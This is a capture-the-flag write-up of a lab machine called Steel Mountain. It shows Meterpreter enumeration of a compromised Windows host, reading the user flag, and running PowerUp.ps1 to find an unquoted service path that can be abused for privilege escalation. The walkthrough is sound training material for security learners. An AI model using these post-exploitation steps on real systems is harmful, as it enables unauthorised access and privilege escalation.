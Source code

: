 
## Enumeration

```bash
meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: STEELMOUNTAIN\bill

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
```

We are looking for the user.txt flag. Listing the contents of the home directory didn't show it. I found it in the Desktop directory. 

```bash
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

cat user.txt
b0[REDACTED]65
```

Additional enumeration done using the PowerUp.ps1 PowerShell script. 
```bash
meterpreter > upload PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
```
Note that the above command starts dot space. If you don't include that it will not work.

```bash
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking for unquoted service paths...

ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
```